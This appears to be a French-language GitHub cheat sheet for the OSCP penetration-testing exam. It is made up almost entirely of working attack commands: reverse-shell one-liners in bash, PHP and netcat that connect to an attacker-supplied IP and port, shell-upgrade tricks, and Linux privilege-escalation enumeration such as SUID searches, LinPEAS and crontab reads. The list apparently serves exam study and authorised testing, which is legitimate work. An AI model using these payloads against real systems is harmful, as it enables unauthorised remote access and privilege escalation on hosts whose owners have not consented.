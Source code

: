 <img src="https://github.com/florianges/Simple-OSCP-cheat-sheet/assets/64069514/f9d72356-a603-42c4-92b4-dfeff2f868b8" width="450">

## Reverse shell:
Ouvrir un port coté attaquant : nc -lvp [PORT]  
bash -i >& /dev/tcp/[IP]/[PORT] 0>&1  
php -r '$s=fsockopen("[IP]",[PORT]);exec("/bin/sh -i <&3 >&3 2>&3");'  
nc [IP] [PORT] -e /bin/bash  
cd /tmp ; rm f;mkfifo f;cat f|/bin/sh -i 2>&1|nc [IP] [PORT] > f  

Plus de méthodes ici : https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/  

### Spawn TTY:
•	python -c 'import pty; pty.spawn("/bin/sh")'  
•	SHELL=/bin/bash script -q /dev/null  
•	/usr/bin/script -qc /bin/bash /dev/null  
Upgrade reverse shell:  
1.	Ctrl + Z  
2.	stty raw -echo ; fg  
## Énumération :
**Liste les répertoires accessibles en écriture :** find / -type d -writable 2> /dev/null  
**Liste des SUID:** find / -type f -perm /6000 -ls 2>/dev/null  

**Script pour l'énumération :**  
•	lse.sh  
•	LinEnum.sh  
•	LinPEAS.sh  

**Voir la version du système :**  
•	Version du noyau: uname -mr  
•	Version de l'OS: lsb_release -a  

**Voir les processus qui sont executés en arrière-plan:**  
•	pspy  
•	Voir si il y a une crontab  de configurée: cat /etc/crontab  

**Voir les ports en écoute :**  
netstat -tulpn  
Exploitation des droits SUDO/SUID sur des binaires connu:  
https://gtfobins.github.io/
